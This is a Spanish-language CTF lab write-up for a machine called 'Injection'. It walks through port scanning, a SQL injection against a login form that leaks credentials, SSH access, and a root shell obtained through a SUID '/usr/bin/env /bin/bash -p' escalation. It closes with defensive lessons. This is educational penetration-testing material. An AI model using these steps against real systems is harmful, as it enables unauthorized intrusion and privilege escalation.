

# Máquina Vulnerable: Injection
|                   | Detalle maquina                                 |
| ----------------- | ----------------------------------------------- |
| Autor             | El Pingüino de Mario                            |
| Dificultad        | Fácil                                           |
| Fecha de creación | 22/04/2025                                      |
| Fecha del writeup | 18/12/2025                                      |
| Maquina original  | Injection                                       |

Máquina CTF diseñada para practicar técnicas de inyección SQL y escalada de privilegios mediante binarios SUID. Esta máquina implementa un formulario de login vulnerable a SQL injection que permite extraer credenciales de la base de datos, seguido de una escalada de privilegios mediante el binario `/usr/bin/env` con permisos SUID.

El objetivo es practicar la metodología completa de pentesting: reconocimiento con nmap, análisis de aplicaciones web, explotación de SQL injection mediante scripts personalizados, acceso SSH con credenciales obtenidas, y escalada de privilegios mediante binarios SUID malconfigurados. Ideal para practicantes que desean entender la cadena completa de compromiso desde acceso inicial hasta root.

## Tabla de Contenidos

- [Estructura del Proyecto](#estructura-del-proyecto)
  - [Descripción de Archivos Principales](#descripción-de-archivos-principales)
- [Explotación](#explotación)
  - [Vulnerabilidades Implementadas](#vulnerabilidades-implementadas)
    - [SQL Injection en Login](#sql-injection-en-login)
    - [SUID Binary - /usr/bin/env](#suid-binary---usrbinenv)
  - [Flags](#flags)
- [Write-up Completo](#write-up-completo)
  - [Diagrama de Ataque](#diagrama-de-ataque)
  - [Paso 1: Reconocimiento - Escaneo de Puertos](#paso-1-reconocimiento---escaneo-de-puertos)
  - [Paso 2: Enumeración Web](#paso-2-enumeración-web)
  - [Paso 3: Explotación SQL Injection](#paso-3-explotación-sql-injection)
  - [Paso 4: Acceso SSH](#paso-4-acceso-ssh)
  - [Paso 5: Escalada de Privilegios](#paso-5-escalada-de-privilegios)
  - [Paso 6: Obtención de la flag](#paso-6-obtención-de-la-flag)
- [Conclusión](#conclusión)
---

## Estructura de archivos
```
Injection
└── README.md               # Documentación del proyecto
└── exploit_sqli.py         # Exploit SQL Injection personalizado
```
---

## Explotación

### Vulnerabilidades Implementadas

#### SQL Injection en Login
- **Descripción**: Formulario de login vulnerable a SQL injection
- **Vector de ataque**: Bypass de autenticación mediante inyección SQL en el parámetro `name` y `password`
- **Impacto**: Extracción de credenciales de usuarios almacenadas en la base de datos
- **Explotación**: Mediante script personalizado `exploit_sqli.py`

#### SUID Binary - /usr/bin/env
- **Descripción**: Binario `/usr/bin/env` con permisos SUID configurado incorrectamente
- **Vector de ataque**: Ejecución de `/usr/bin/env /bin/bash -p` para obtener shell con privilegios elevados
- **Impacto**: Escalada de privilegios de usuario `dylan` a `root`
- **Referencia**: [GTFOBins - env](https://gtfobins.github.io/gtfobins/env/)

---

## Write-up Completo

### Diagrama de Ataque



### Paso 1: Reconocimiento - Escaneo de Puertos

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-18 20:38 EST
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.06 seconds
```

**Resultado**: Se identifican 2 puertos abiertos:
- **Puerto 22 (SSH)**: OpenSSH 8.9p1 Ubuntu
- **Puerto 80 (HTTP)**: Apache httpd 2.4.52

### Paso 2: Enumeración Web

```bash
┌──(kali㉿kali)-[~]
└─$ curl http://172.17.0.2
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Iniciar Sesión</title>
    <link rel="stylesheet" href="styles.css">
    <style>
       ....
    </style>
</head>
<body>
    <div class="background">
        <h2>Login</h2>
        <form action="/index.php" method="post">
            <div class="form-group">
                <label for="username">User:</label>
                <input type="text" id="name" name="name" required>
            </div>
            <div class="form-group">
                <label for="password">Password:</label>
                <input type="password" id="password" name="password" required>
            </div>
            <button type="submit" name="submit" >Login</button>
        </form>
    </div>
</body>
</html>
```

**Resultado**: Se identifica un formulario de login en `/index.php` que acepta parámetros `name` y `password` mediante POST.

### Paso 3: Explotación SQL Injection

#### Exploit personalizado para SQL Injection

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 exploit_sqli.py
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Bienvenida</title>
    <style>
      .....
    </style>
</head>
<body>

    <div class="mensaje">
        <p>Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78</p>
    </div>
</body>
</html>
```

**Resultado**: Exploit exitoso, credenciales extraídas:
- **Usuario**: dylan
- **Contraseña**: KJSDFG789FGSDF78

### Paso 4: Acceso SSH

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh dylan@172.17.0.2
dylan@172.17.0.2's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.12.38+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@e562e27205ab:~$
```

**Resultado**: Acceso SSH exitoso como usuario `dylan` ✓

### Paso 5: Escalada de Privilegios

#### Enumeración de privilegios

```bash
dylan@e562e27205ab:~$ sudo -l
-bash: sudo: command not found
```

**Resultado**: El comando `sudo` no está disponible en el sistema.

#### Búsqueda de binarios SUID

```bash
dylan@e562e27205ab:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/su
/usr/bin/env
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
```

**Resultado**: Se identifica `/usr/bin/env` con permisos SUID, vulnerable según [GTFOBins](https://gtfobins.github.io/gtfobins/env/)

#### Explotación del binario SUID

```bash
dylan@e562e27205ab:~$ /usr/bin/env /bin/bash -p
bash-5.1# whoami
root
```

**Resultado**: Shell root obtenido exitosamente ✓

### Paso 6: Obtención de la flag

```bash
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
[FLAG_CONTENT]
```

**Resultado**: Flag capturada exitosamente ✓

---

## Conclusión

Esta máquina demuestra una cadena de ataque completa: desde la explotación de una vulnerabilidad en aplicación web (SQL Injection) hasta la escalada de privilegios mediante binarios SUID malconfigurados.

**Lecciones aprendidas:**
1. **Validación de entrada**: Las aplicaciones web deben validar y sanitizar todos los inputs del usuario para prevenir SQL injection
2. **Prepared Statements**: Usar consultas parametrizadas en lugar de concatenación de strings en SQL
3. **Gestión de permisos SUID**: Los binarios con permisos SUID deben ser cuidadosamente auditados, especialmente aquellos que pueden ejecutar shells
4. **Principio de mínimo privilegio**: Binarios como `/usr/bin/env` no deberían tener permisos SUID bajo ninguna circunstancia
5. **Defensa en profundidad**: Una única vulnerabilidad no debería comprometer todo el sistema
6. **Enumeración sistemática**: La búsqueda de binarios SUID es una técnica fundamental en escalada de privilegios
7. **Recursos públicos**: GTFOBins es una herramienta invaluable para identificar técnicas de escalada de privilegios